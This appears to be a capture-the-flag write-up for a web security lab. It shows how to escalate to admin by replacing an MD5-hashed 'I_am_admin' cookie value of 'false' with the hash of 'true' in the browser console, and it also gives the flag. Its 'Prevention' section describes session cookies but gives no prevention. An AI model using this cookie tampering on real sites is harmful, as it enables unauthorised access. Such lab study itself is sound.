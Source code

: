 # SESSION HIJACKING ATTACK

## Flag
```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Discovery
On the page http://{IP_ADDRESS}/

```
# inspector console
document.cookie
> 68934a3e9455fa72420237eb05902327
```

```
md5_decrypt('68934a3e9455fa72420237eb05902327')
> false
md5_encrypt('true')
> b326b5062b2f0e69046810717534cb09
```

```
# inspector console
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## Use
> perform any actions that the original user is authorized to do during the active session

## Prevention
> Session cookies are a way of overcoming these constraints and allowing web applications to identify individual computer systems and store the current session state

## Documentation
- [owasp - Session hijacking attack](https://www.owasp.org/index.php/Session_hijacking_attack)
- [netsparker - Session hijacking](https://www.netsparker.com/blog/web-security/session-hijacking/)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)